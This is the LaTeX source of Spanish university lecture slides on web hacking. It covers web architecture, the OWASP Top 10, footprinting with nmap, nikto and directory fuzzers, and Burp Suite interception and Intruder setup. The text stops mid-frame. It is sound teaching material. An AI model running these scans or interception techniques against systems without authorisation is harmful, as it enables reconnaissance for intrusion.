\documentclass[aspectratio=169,10pt]{beamer}
\usepackage{beamertemplate}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\newcommand{\term}[1]{\emph{#1}}
\usepackage{graphicx}
\usepackage{url}
\usepackage{textcomp}
\usepackage{eurosym}
\usepackage[normalem]{ulem}
\usepackage{ragged2e}
\usepackage{etoolbox}
\apptocmd{\itemize}{\justifying}{}{}
\AtBeginEnvironment{frame}{\justifying}

\setbeamertemplate{section in toc shaded}[default][30]
\AtBeginSection[]{%
  \begin{frame}{Índice}
  \tiny
  \tableofcontents[currentsection]
  \end{frame}
}

% --- build reproducible / metadatos limpios ---
\pdfinfoomitdate=1
\pdftrailerid{}
\pdfsuppressptexinfo=-1

\title[SSI -- Tema 4.1]{Hacking Web: Ataques Client-side}
\subtitle{Seguridad en Sistemas Informáticos --- Tema 4.1}
\author{José Luis Martínez}
\institute{Universidad de Castilla-La Mancha}
\date{Curso 2026/27}

\begin{document}

\begin{frame}[plain]\titlepage\end{frame}

\begin{frame}{Índice}\scriptsize\tableofcontents\end{frame}

\begin{frame}[plain]\begin{center}
\includegraphics[width=\textwidth,height=0.92\textheight,keepaspectratio]{img/taxonomia-ataque.pdf}\end{center}\end{frame}

\section{Introducción y fundamentos}

\begin{frame}[allowframebreaks]{Introducción}
\small
  \begin{itemize}
  \item OWASP
  \item Footprinting web y Burp
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Introducción}
\end{frame}

\begin{frame}[allowframebreaks]{Introducción}
\small
  \begin{itemize}
  \item Taxonomía de un Ataque
  \item Footprinting
  \item Escaneo /
  \item Fingerprinting
  \item Enumeration
  \item Access
  \item Elevación Privilegios
  \item Pivoting / Mov. Lateral
  \item Covering
  \item Persistencia/Back doors
  \item DoS
  \item Recopilación de Información / Open Source Intelligence
  \item Credenciales
  \item Exploiting
  \item Postexplotación
  \item Esta unidad nos centramos aquí
  \item Recopilación de Información / Open Source Intelligence
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Aplicaciones web: fundamentos}
\small
  \begin{itemize}
  \item Arquitectura bien definida
  \item La mayoría de aplicaciones web comparten un esquema similar; sus vulnerabilidades son muy heterogéneas y deben tenerse en cuenta ya en el DISEÑO de la web.
  \item Atacar para defender
  \item Saber explotar estas vulnerabilidades es la mejor forma de aprender a defenderse de ellas.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Introducción}
\small
  \begin{itemize}
  \item Existen diferentes tipos de arquitecturas web. Pero el más común es la arquitectura cliente/servidor.
  \item Esta arquitectura involucra uno o más cliente que solicitan recursos a uno o más servidores.
  \item Tanto el servidor como los clientes pueden funcionar en diferentes dispositivos, esto dependerá de la naturaleza de la aplicación.
  \item En el modelo actual pueden aparecer otros elementos. Proxies, cachés, servidores especializados, etc.
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl010_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{El cliente}
\small
  \begin{itemize}
  \item Quién inicia la comunicación
  \item En la mayoría de aplicaciones el cliente inicia la comunicación con el servidor y necesita un intérprete para interactuar con él.
  \item Tipos de cliente
  \item Navegadores web (los más comunes), bots o aplicaciones específicas. El navegador envía las peticiones y el usuario navega entre los distintos niveles de la página.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{El navegador}
\small
  \begin{itemize}
  \item Qué es
  \item Programa capaz de interpretar HTML (entre otras tecnologías) y mostrarlo al usuario final.
  \item Qué gestiona
  \item Su propia caché, almacén de cookies y certificados, y funciones de seguridad básicas. Genera peticiones HTTP para interactuar con el servidor.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{El servidor}
\small
  \begin{itemize}
  \item Su función
  \item Responde a los clientes. Puede servir contenido estático, pero lo habitual hoy es que GENERE contenido dinámico.
  \item Características
  \item Altas prestaciones y capacidad de atender múltiples conexiones simultáneas.
  \item Desde el punto de vista de la seguridad, es el componente MÁS crítico.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Tecnologías web}
\small
  \begin{itemize}
  \item Por qué importan
  \item Identificar qué tecnologías usa la aplicación ---y qué problemas acarrean--- es clave para el análisis de seguridad.
  \item Cómo categorizarlas
  \item Plataforma de servidor: Apache, Nginx, Tomcat\dots{} Servidor: PHP, Node.js, ASP, Python, Ruby\dots{} Cliente: HTML, JavaScript, TypeScript, Dart\dots{}
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Introducción}
\small
  \begin{itemize}
  \item Tecnologías Web:
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl015_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{HTML}
\small
  \begin{itemize}
  \item Qué es
  \item HyperText Markup Language: lenguaje de marcado que define el CONTENIDO de la página y su orden.
  \item Qué NO hace
  \item No define por completo el aspecto ni permite acciones dinámicas. Es fácilmente legible, tiene estructura bien definida y es la unidad mínima de una página web.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Introducción}
\small
  \begin{itemize}
  \item CSS permite dotar de estilos nuestra página web, Modificando la apariencia del mismo.
  \item Se emplea el tag \textless{}style\textgreater{}
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl017_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{JavaScript}
\small
  \begin{itemize}
  \item Qué aporta
  \item Ejecuta código en el lado CLIENTE $\rightarrow$ funciones complejas imposibles solo con HTML. Permite además consumir APIs para integrar funcionalidades ya existentes.
  \item Limitaciones (por diseño)
  \item No puede acceder libremente al contenido del equipo del usuario: está confinado al sandbox del navegador.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Introducción}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl019_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl019_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Apache}
\small
  \begin{itemize}
  \item Qué es
  \item Servidor web gratuito y de código abierto para sistemas Unix; en torno al 41,5 \% de cuota global.
  \item Pros y contras
  \item Fácil de configurar, estable y muy mantenido. No ofrece el mejor rendimiento en entornos con MUCHAS peticiones concurrentes.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Introducción}
\small
  \begin{itemize}
  \item PHP es un lenguaje de programación de código abierto muy popular.
  \item PHP puede integrarse dentro del HTML (en el lado del servidor).
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl021_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Introducción}
\small
  \begin{itemize}
  \item OWASP
  \item Footprinting web y Burp
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\section{OWASP Top 10}

\begin{frame}[allowframebreaks]{OWASP Top 10}
\small
  \begin{itemize}
  \item ¿Qué es OWASP?
  \item Open Web Application Security Project (OWASP) (https://www.owasp.org) es una organización internacional que, entre otras coas, proporciona las 10 principales vulnerabilidades y fallos en las aplicaciones web. Esta organización actualiza los 10 principales riesgos de seguridad de aplicaciones y, en su última revisión los identifica
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{OWASP Top 10 --- A1 y A2}
\small
  \begin{itemize}
  \item A1 -- Broken Access Control
  \item En este caso, lo que se produce es que no se aplican correctamente las restricciones de control de acceso sobre lo que los usuarios autenticados pueden hacer. Los atacantes pueden explotar estas deficiencias para acceder a funciones y / o datos no autorizados, por ejemplo, acceder a las cuentas de otros usuarios, ver archivos confidenciales, modificar datos de otros usuarios, cambiar derechos de acceso, etc.
  \item A2 -- Fallos en criptografía
  \item Lo primero es determinar las necesidades de protección de los datos en tránsito y en reposo. Por ejemplo, las contraseñas, los números de tarjetas de crédito, los historiales médicos, la información personal, etc. ¿Se transmiten los datos en texto claro? Esto se refiere a protocolos como HTTP, SMTP, FTP que también utilizan actualizaciones de TLS como STARTTLS. También cuando se utilizan algoritmos o protocolos criptográficos antiguos o débiles o claves criptográficas por defecto, o hay una falta una gestión o rotación de claves adecuada. Cuando no se aplica el cifrado a las directivas o cabeceras de seguridad HTTP. Cuando se ignoran, reutilizan o no se generan vectores de inicialización suficientemente seguros para el modo de funcionamiento criptográfico, etc
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{OWASP Top 10 --- A3 y A4}
\small
  \begin{itemize}
  \item A3 -- Inyección
  \item Los fallos de inyección, como SQL, inyección de comando e inyección LDAP se producen cuando se envían datos no confiables a un intérprete como parte de un comando o consulta. Los datos hostiles bien formateados del atacante pueden engañar al intérprete para que ejecute comandos no intencionados o acceda a los datos sin la debida autorización.
  \item A4 -- Diseño Inseguro
  \item El diseño inseguro es una categoría amplia que representa diferentes debilidades, expresadas como \textquotedbl{}diseño de control ausente o ineficaz\textquotedbl{}. Hay una diferencia entre diseño inseguro e implementación insegura. Diferenciamos entre defectos de diseño y defectos de implementación por una razón, tienen diferentes causas de origen y remediación. Un diseño seguro puede seguir teniendo defectos de implementación que den lugar a vulnerabilidades que puedan ser explotadas. Un diseño inseguro no puede arreglarse con una implementación perfecta, ya que, por definición, los controles de seguridad necesarios nunca se crearon para defenderse de ataques específicos. Uno de los factores que contribuyen a un diseño inseguro es la falta de un perfil de riesgo empresarial inherente al software o al sistema que se está desarrollando y, por tanto, la incapacidad de determinar qué nivel de diseño de seguridad se requiere.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{OWASP Top 10 --- A5 y A6}
\small
  \begin{itemize}
  \item A5 - Mala configuración de la seguridad
  \item La configuración incorrecta de la seguridad es el problema más común en las aplicaciones web, que se debe en parte a la configuración manual introducida por el administrador, configuraciones predeterminadas inseguras, repositorios Amazon S3 (https://docs.aws.amazon.com/es\_es/AmazonS3/latest/dev/UsingBucket.html), encabezados HTTP mal configurados, mensajes de error que contienen información confidencial, sistemas sin parchear o actualizar, marcos, dependencias y componentes identificados de manera absoluta.
  \item A6 - Uso de componentes con vulnerabilidades conocidas
  \item Los componentes, externos de las aplicaciones web tales como bibliotecas, marcos, pluggins y otros módulos de software, se ejecutan con los mismos privilegios que la aplicación web y, están desarrollados por terceros que, puede que no hayan tenido en cuenta la seguridad o, incluso, hayan distribuido el paquete software con errores intencionados. Si un ataque explota un componente vulnerable, puede facilitar la toma de control del servidor o el robo de datos.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{OWASP Top 10 --- A7 y A8}
\small
  \begin{itemize}
  \item A7 -- Rotura de autenticación
  \item Las funciones de la aplicación web relacionadas con la autenticación y la administración de la sesión a menudo se implementan incorrectamente, lo que permite a los atacantes comprometer contraseñas, claves o tokens de sesión o, explotar otros fallos de implementación para asumir las identidades de otros usuarios (temporal o permanentemente).
  \item A8 -- Fallos de integridad en el software y los datos
  \item Los fallos de integridad del software y de los datos están relacionados con el código y la infraestructura y, no protegen contra las violaciones de la integridad. Un ejemplo de esto es cuando una aplicación depende de plugins, bibliotecas o módulos de fuentes, repositorios y redes de entrega de contenido (CDN) no confiables. Una cadena de producción CI/CD insegura puede introducir el potencial de acceso no autorizado, código malicioso o compromiso del sistema. Por último, muchas aplicaciones incluyen ahora la funcionalidad de auto-actualización, donde las actualizaciones se descargan sin suficiente verificación de la integridad y se aplican a la aplicación previamente confiable. Los atacantes podrían subir sus propias actualizaciones para que se distribuyan y ejecuten en todas las instalaciones. Otro ejemplo es cuando los objetos o datos se codifican o serializan en una estructura que un atacante puede ver y modificar es vulnerable a la deserialización insegura.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{OWASP Top 10 --- A9 y A10}
\small
  \begin{itemize}
  \item A9 - Registro y monitoreo insuficientes
  \item Debido a un registro de actividades o monitoreo insuficientes, o por la falta de una respuesta ante incidentes, permite a los atacantes atacar los sistemas, mantener la persistencia, pivotar a otros sistemas y manipular, extraer o destruir datos. La mayoría de los estudios de infracciones muestran que el tiempo para detectar una infracción es de más de 200 días, y éstas, generalmente se han detectado por terceras partes en lugar de procesos internos.
  \item A10 - SSRF
  \item Los fallos SSRF se producen cuando una aplicación web obtiene un recurso remoto sin validar la URL proporcionada por el usuario. Permite a un atacante coaccionar a la aplicación para que envíe una solicitud manipulada a un destino inesperado, incluso cuando está protegida por un cortafuegos, una VPN u otro tipo de lista de control de acceso a la red (ACL). Además, la gravedad de la SSRF es cada vez mayor debido a los servicios en la nube y a la complejidad de las arquitecturas.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{OWASP}
\small
  \begin{itemize}
  \item Ref: \href{https://owasp.org/www-project-top-ten/}{https://owasp.org/www-project-top-ten/}
  \item \href{https://systemweakness.com/owasp-top-10-vulnerabilities-latest-2021-cfe44c0d60a7}{Leer}
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl029_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{OWASP}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl030_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{OWASP}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl031_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Introducción}
\small
  \begin{itemize}
  \item OWASP
  \item Footprinting web y Burp
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\section{Footprinting web}

\begin{frame}[allowframebreaks]{Footprinting web}
\small
  \begin{itemize}
  \item ¿Qué es el footprinting?
  \item Antes de estudiar y explotar las vulnerabilidades hay que entender cómo se afronta el análisis PREVIO de una página web.
  \item Fases de un análisis previo
  \item Escaneo de puertos (aunque nos centremos en web, puede haber servicios adicionales).
  \item Escaneo y mapeo de recursos web. Obtención de servicios y versiones. Búsqueda de vulnerabilidades.
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Footprinting --- escaneo de puertos}
\small
  \begin{itemize}
  \item ¿Por qué escanear puertos primero?
  \item Localizar el servicio web: no siempre corre en el puerto 80.
  \item Localizar servicios auxiliares que usan muchas aplicaciones web.
  \item Detectar un segundo servicio web, quizá menos seguro.
  \item Herramienta
  \item Nmap es una de las herramientas más conocidas de escaneo de redes, puertos y servicios.
  \item nmap -p- -sV \textless{}IP\textgreater{}
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Footprinting --- servicios y versiones}
\small
  \begin{itemize}
  \item Identificar aplicación y versión
  \item Localizados los servicios web y auxiliares, conviene saber qué aplicación corre en cada puerto y su versión: es vital para entender el esquema de la web y buscar vulnerabilidades típicas.
  \item Nmap a veces obtiene servicio y versión; también hay programas como Nikto.
  \item nikto -h \textless{}IP\textgreater{}
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Footprinting --- tecnologías y CMS}
\small
  \begin{itemize}
  \item Identificar tecnologías
  \item whatweb hace footprinting de toda la app e identifica versiones y tecnologías; también wappalyzer.
  \item CMS conocidos $\rightarrow$ herramientas
  \item wpscan / wpseku $\cdot$ joomscan $\cdot$ droopescan
  \item Escáneres de vulns ($\neq$ footprinting)
  \item Acunetix $\cdot$ Nessus $\cdot$ OpenVAS.
  \item Vulnerabilidades Web
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl036_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl036_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Footprinting --- descubrir recursos}
\small
  \begin{itemize}
  \item Descubrir y listar recursos web
  \item El objetivo es enumerar los recursos existentes. A veces sirve un crawler; otras hay que usar diccionarios de fuerza bruta de rutas.
  \item wfuzz $\cdot$ dirbuster $\cdot$ dirb
  \item Buscar vulnerabilidades conocidas
  \item Con toda la información recogida, buscar vulnerabilidades de los servicios conocidos (cve.mitre.org). Offline:
  \item searchsploit $\cdot$ metasploit
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\section{Burp Suite}

\begin{frame}[allowframebreaks]{Proxy web}
\small
  \begin{itemize}
  \item ¿Para qué un proxy web?
  \item Para muchos ataques y escaneos es útil tener control de bajo nivel sobre las peticiones a la web.
  \item Un proxy web se sitúa entre el navegador y el servidor: intercepta, modifica y elimina peticiones, entre otras acciones.
  \item Burp Suite $\cdot$ OWASP ZAP
  \item Vulnerabilidades Web
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Evaluación Continua}
\small
  \begin{itemize}
  \item Puedes hacer esta room de tryhackme sobre BurpSuite y sus opciones:
    \begin{itemize}
    \item \href{https://tryhackme.com/r/room/burpsuiterepeater}{https://tryhackme.com/r/room/burpsuiterepeater}
    \end{itemize}
  \item Lecturas:
    \begin{itemize}
    \item \href{https://www.hackingarticles.in/burp-suite-for-pentester-configuring-proxy/}{https://www.hackingarticles.in/burp-suite-for-pentester-configuring-proxy/}
    \item \href{https://www.hackingarticles.in/burp-suite-for-pentester-fuzzing-with-intruder-part-1/}{https://www.hackingarticles.in/burp-suite-for-pentester-fuzzing-with-intruder-part-1/}
    \item \href{https://www.hackingarticles.in/burpsuite-for-pentester-fuzzing-with-intruder-part-2/}{https://www.hackingarticles.in/burpsuite-for-pentester-fuzzing-with-intruder-part-2/}
    \item \href{https://www.hackingarticles.in/burp-suite-for-pentester-fuzzing-with-intruder-part-3/}{https://www.hackingarticles.in/burp-suite-for-pentester-fuzzing-with-intruder-part-3/}
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl039_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Configuración avanzada de Burp Suite}
\small
  \begin{itemize}
  \item Herramientas
  \item Proxy y certificado CA (HTTPS)
  \item Interceptación de tráfico cifrado
  \item Intruder y Repeater profesional
  \item Integración con el navegador
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Burp --- Proxy y certificado CA (HTTPS)}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item 1) Proxy listener
  \item Proxy $\rightarrow$ Settings $\rightarrow$ Proxy listeners: 127.0.0.1:8080 (por defecto).
  \item 2) Instalar la CA de PortSwigger
  \item Con el proxy activo, visita http://burp (o http://burpsuite).
  \item $\rightarrow$ 'CA Certificate' $\rightarrow$ descarga cacert.der.
  \item Firefox: Ajustes $\rightarrow$ Certificados $\rightarrow$ Autoridades $\rightarrow$ Importar $\rightarrow$ confiar para sitios web.
  \item Chrome/Edge: Certificados $\rightarrow$ Entidades raíz de confianza $\rightarrow$ Importar.
  \item 3) Atajos
  \item Browser integrado: Proxy $\rightarrow$ Intercept $\rightarrow$ Open Browser (ya confía, sin config).
  \item FoxyProxy Standard: perfil 127.0.0.1:8080 $\rightarrow$ activar/desactivar con 1 clic.
  \item portswigger.net/burp/documentation/desktop/getting-started
  \item Interceptar SSL en apps (iOS/iPA): linkedin/rafael-limachi $\cdot$ vídeo youtu.be/9rPg2Ew-8\_Y
  \item Navegador
  \item (confía en la CA de Burp)
  \item proxy 127.0.0.1:8080
  \item Burp Proxy (MITM)
  \item genera un cert por host
  \item Servidor web (HTTPS)
  \item Sin importar la CA $\rightarrow$ error de certificado en cada sitio HTTPS
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Interceptación de tráfico cifrado (HTTPS)}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item Cómo funciona el descifrado
  \item Burp es un MITM: para cada host genera al vuelo un certificado
  \item firmado por SU CA. Por eso el navegador debe confiar en esa CA.
  \item Trabajar con el tráfico
  \item Proxy $\rightarrow$ Intercept (on/off) para parar/editar peticiones.
  \item HTTP history y WebSockets history: todo lo que ha pasado.
  \item Reglas e interceptación selectiva
  \item Intercept Client/Server Requests $\rightarrow$ interceptar SOLO en scope.
  \item Match \& Replace: reescribe cabeceras/cuerpo automáticamente.
  \item TLS: se pueden aceptar certs inválidos del servidor de destino.
  \item portswigger.net/burp/documentation/desktop/tools/proxy
  \item Match \& Replace --- ejemplos
  \item Request header
  \item User-Agent $\rightarrow$ uno propio
  \item Request header
  \item quitar If-Modified-Since
  \item Response body
  \item ocultar$\rightarrow$mostrar (editar HTML)
  \item Response header
  \item X-Frame-Options $\rightarrow$ (vacío)
  \item Proxy $\rightarrow$ Settings $\rightarrow$ Match and replace rules
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Intruder profesional --- fuzzing a medida}
\small
  \begin{itemize}
  \item Herramientas / Burp Suite
  \item Posiciones y tipo de ataque
  \item Marca los puntos de inyección con y elige el attack type
  \item (ver diagrama). Sniper es el más usado en pruebas puntuales.
  \item Payload types
  \item Simple list $\cdot$ Runtime file $\cdot$ Numbers $\cdot$ Brute forcer $\cdot$ Dates $\cdot$
  \item Username generator $\cdot$ Custom iterator.
  \item Payload processing (reglas)
  \item Add prefix/suffix $\cdot$ URL/Base64 encode $\cdot$ Hash (MD5\dots{}) $\cdot$
  \item Match/replace $\cdot$ Skip if matches regex.
  \item Detección y rendimiento
  \item Grep-Match / Grep-Extract para marcar el éxito; Resource pool
  \item para limitar el ritmo. Turbo Intruder para race conditions.
  \item portswigger.net/burp/documentation/desktop/tools/intruder
  \item Sniper
  \item 1 lista $\cdot$ 1 posición
  \item cada vez
  \item Battering Ram
  \item mismo valor en
  \item TODAS las posiciones
  \item Pitchfork
  \item listas en paralelo
  \item (user+pass sincron.)
  \item Cluster Bomb
  \item producto cartesiano
  \item de todas las listas
